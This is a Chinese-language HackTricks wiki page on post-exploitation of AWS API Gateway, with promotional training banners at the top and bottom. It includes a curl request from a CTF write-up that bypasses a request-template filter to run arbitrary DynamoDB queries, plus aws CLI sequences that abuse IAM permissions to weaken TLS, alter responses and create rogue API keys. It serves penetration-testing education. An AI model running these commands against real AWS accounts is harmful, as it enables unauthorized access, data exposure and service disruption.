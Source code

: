 # AWS - API Gateway Post Exploitation

{% hint style="success" %}
学习与实践 AWS 黑客技术：<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks 培训 AWS 红队专家 (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
学习与实践 GCP 黑客技术：<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks 培训 GCP 红队专家 (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>支持 HackTricks</summary>

* 查看 [**订阅计划**](https://github.com/sponsors/carlospolop)!
* **加入** 💬 [**Discord 群组**](https://discord.gg/hRep4RUj7f) 或 [**telegram 群组**](https://t.me/peass) 或 **在** **Twitter** 🐦 **上关注我们** [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github 仓库提交 PR 分享黑客技巧。

</details>
{% endhint %}

## API Gateway

有关更多信息，请查看：

{% content-ref url="../aws-services/aws-api-gateway-enum.md" %}
[aws-api-gateway-enum.md](../aws-services/aws-api-gateway-enum.md)
{% endcontent-ref %}

### 访问未公开的 API

您可以在 [https://us-east-1.console.aws.amazon.com/vpc/home#CreateVpcEndpoint](https://us-east-1.console.aws.amazon.com/vpc/home?region=us-east-1#CreateVpcEndpoint:) 创建一个服务为 `com.amazonaws.us-east-1.execute-api` 的端点，在您有访问权限的网络中公开该端点（可能通过 EC2 机器），并分配一个允许所有连接的安全组。\
然后，您将能够从 EC2 机器访问该端点，从而调用之前未公开的网关 API。

### 绕过请求体透传

此技术在 [**此 CTF 文章**](https://blog-tyage-net.translate.goog/post/2023/2023-09-03-midnightsun/?\_x\_tr\_sl=en&\_x\_tr\_tl=es&\_x\_tr\_hl=en&\_x\_tr\_pto=wapp) 中发现。

正如 [**AWS 文档**](https://docs.aws.amazon.com/AWSCloudFormation/latest/UserGuide/aws-properties-apigateway-method-integration.html) 中 `PassthroughBehavior` 部分所示，默认情况下，值 **`WHEN_NO_MATCH`** 在检查请求的 **Content-Type** 头时，将请求传递给后端而不进行任何转换。

因此，在 CTF 中，API Gateway 有一个集成模板，该模板 **阻止了标志在发送 `Content-Type: application/json` 的请求时被外泄**： 

{% code overflow="wrap" %}
```yaml
RequestTemplates:
application/json: '{"TableName":"Movies","IndexName":"MovieName-Index","KeyConditionExpression":"moviename=:moviename","FilterExpression": "not contains(#description, :flagstring)","ExpressionAttributeNames": {"#description": "description"},"ExpressionAttributeValues":{":moviename":{"S":"$util.escapeJavaScript($input.params(''moviename''))"},":flagstring":{"S":"midnight"}}}'
```
{% endcode %}

然而，发送一个带有 **`Content-type: text/json`** 的请求将会绕过该过滤器。

最后，由于 API Gateway 仅允许 `Get` 和 `Options`，因此可以通过发送一个包含查询的 POST 请求，并使用头部 `X-HTTP-Method-Override: GET` 来发送任意的 dynamoDB 查询，而没有任何限制：

{% code overflow="wrap" %}
```bash
curl https://vu5bqggmfc.execute-api.eu-north-1.amazonaws.com/prod/movies/hackers -H 'X-HTTP-Method-Override: GET' -H 'Content-Type: text/json'  --data '{"TableName":"Movies","IndexName":"MovieName-Index","KeyConditionExpression":"moviename = :moviename","ExpressionAttributeValues":{":moviename":{"S":"hackers"}}}'
```
{% endcode %}

### 使用计划 DoS

在 **Enumeration** 部分，您可以看到如何 **获取密钥的使用计划**。如果您拥有密钥并且它的 **每月使用次数限制为 X 次**，您可以 **直接使用它并造成 DoS**。

**API Key** 只需包含在一个名为 **`x-api-key`** 的 **HTTP 头** 中。

### `apigateway:UpdateGatewayResponse`, `apigateway:CreateDeployment`

拥有权限 `apigateway:UpdateGatewayResponse` 和 `apigateway:CreateDeployment` 的攻击者可以 **修改现有的 Gateway Response，以包含自定义头或响应模板，这些头或模板会泄露敏感信息或执行恶意脚本**。

{% code overflow="wrap" %}
```bash
API_ID="your-api-id"
RESPONSE_TYPE="DEFAULT_4XX"

# Update the Gateway Response
aws apigateway update-gateway-response --rest-api-id $API_ID --response-type $RESPONSE_TYPE --patch-operations op=replace,path=/responseTemplates/application~1json,value="{\"message\":\"$context.error.message\", \"malicious_header\":\"malicious_value\"}"

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
{% endcode %}

**潜在影响**：敏感信息泄露、执行恶意脚本或未经授权访问API资源。

{% hint style="info" %}
需要测试
{% endhint %}

### `apigateway:UpdateStage`, `apigateway:CreateDeployment`

拥有权限 `apigateway:UpdateStage` 和 `apigateway:CreateDeployment` 的攻击者可以**修改现有的API Gateway阶段，将流量重定向到不同的阶段或更改缓存设置，以获得对缓存数据的未经授权访问**。

{% code overflow="wrap" %}
```bash
API_ID="your-api-id"
STAGE_NAME="Prod"

# Update the API Gateway stage
aws apigateway update-stage --rest-api-id $API_ID --stage-name $STAGE_NAME --patch-operations op=replace,path=/cacheClusterEnabled,value=true,op=replace,path=/cacheClusterSize,value="0.5"

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
{% endcode %}

**潜在影响**：未经授权访问缓存数据，干扰或拦截API流量。

{% hint style="info" %}
需要测试
{% endhint %}

### `apigateway:PutMethodResponse`, `apigateway:CreateDeployment`

具有权限 `apigateway:PutMethodResponse` 和 `apigateway:CreateDeployment` 的攻击者可以**修改现有API Gateway REST API方法的响应，以包含自定义头或响应模板，从而泄露敏感信息或执行恶意脚本**。
```bash
API_ID="your-api-id"
RESOURCE_ID="your-resource-id"
HTTP_METHOD="GET"
STATUS_CODE="200"

# Update the method response
aws apigateway put-method-response --rest-api-id $API_ID --resource-id $RESOURCE_ID --http-method $HTTP_METHOD --status-code $STATUS_CODE --response-parameters "method.response.header.malicious_header=true"

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
**潜在影响**：敏感信息泄露、执行恶意脚本或未经授权访问API资源。

{% hint style="info" %}
需要测试
{% endhint %}

### `apigateway:UpdateRestApi`, `apigateway:CreateDeployment`

拥有权限 `apigateway:UpdateRestApi` 和 `apigateway:CreateDeployment` 的攻击者可以**修改API Gateway REST API设置以禁用日志记录或更改最低TLS版本，从而可能削弱API的安全性**。
```bash
API_ID="your-api-id"

# Update the REST API settings
aws apigateway update-rest-api --rest-api-id $API_ID --patch-operations op=replace,path=/minimumTlsVersion,value='TLS_1.0',op=replace,path=/apiKeySource,value='AUTHORIZER'

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
**潜在影响**：削弱API的安全性，可能允许未经授权的访问或暴露敏感信息。

{% hint style="info" %}
需要测试
{% endhint %}

### `apigateway:CreateApiKey`, `apigateway:UpdateApiKey`, `apigateway:CreateUsagePlan`, `apigateway:CreateUsagePlanKey`

具有权限`apigateway:CreateApiKey`、`apigateway:UpdateApiKey`、`apigateway:CreateUsagePlan`和`apigateway:CreateUsagePlanKey`的攻击者可以**创建新的API密钥，将其与使用计划关联，然后使用这些密钥进行对API的未经授权访问**。
```bash
# Create a new API key
API_KEY=$(aws apigateway create-api-key --enabled --output text --query 'id')

# Create a new usage plan
USAGE_PLAN=$(aws apigateway create-usage-plan --name "MaliciousUsagePlan" --output text --query 'id')

# Associate the API key with the usage plan
aws apigateway create-usage-plan-key --usage-plan-id $USAGE_PLAN --key-id $API_KEY --key-type API_KEY
```
**潜在影响**：未经授权访问API资源，绕过安全控制。

{% hint style="info" %}
需要测试
{% endhint %}

{% hint style="success" %}
学习与实践AWS黑客技术：<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks培训AWS红队专家（ARTE）**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
学习与实践GCP黑客技术：<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks培训GCP红队专家（GRTE）**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>支持HackTricks</summary>

* 查看[**订阅计划**](https://github.com/sponsors/carlospolop)!
* **加入** 💬 [**Discord群组**](https://discord.gg/hRep4RUj7f)或[**Telegram群组**](https://t.me/peass)或**关注**我们的**Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks)和[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub库提交PR分享黑客技巧。

</details>
{% endhint %}
